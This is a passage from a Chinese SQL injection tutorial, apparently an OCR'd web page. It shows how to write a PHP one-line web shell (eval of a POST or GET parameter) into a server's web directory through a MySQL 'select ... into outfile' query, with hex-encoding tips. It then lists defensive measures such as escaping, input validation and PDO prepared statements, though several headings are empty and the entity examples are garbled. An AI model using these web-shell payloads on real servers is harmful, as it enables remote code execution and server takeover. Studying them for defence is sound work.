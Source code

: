 ```
select '<?php @eval($_POST["admin"]); ?>' into outfile
'C:\phpStudy\PHPTutorial\WWW\8.php'
```
路径里面两个反斜杠\可以换成一个正斜杠/
PHP 语句没有单引号的话，必须转换成十六进制
要是想省略单引号'的话,必须转换成十六进制
```
<?php eval($_POST["admin"]); ?> 或者 <?php
eval($_GET["admin"]); ?>
<?php @eval($_POST["admin"]); ?>
<?php phpinfo(); ?>
<?php eval($_POST["admin"]); ?>
有时候得写成
<?php eval(\$_POST["admin"]); ?>
```
建议一句话 PHP 语句转换成十六进制
### 数据库备份文件

## 0x06 SQL漏洞防御
### 数据库用户权限分明
### 代码层防御 常用过滤变量
### str_replace()替换过滤
单引号（’）
双引号（"）
反斜杠（\）
NULL

### htmlspecialchars()函数 实体化过滤
预定义的字符是：
& （和号）成为 &
" （双引号）成为 "
’ （单引号）成为 ’
<>成为 <>
就是把成变成一个纯字符_(:з」∠)_

### addslashes()函数 添加转义字符
会在以下关键词前面添加转义字符
单引号（’）
双引号（"）
反斜杠（\）
NULL

### 输入验证
### 编码输出
### 使用PDO预编译语句
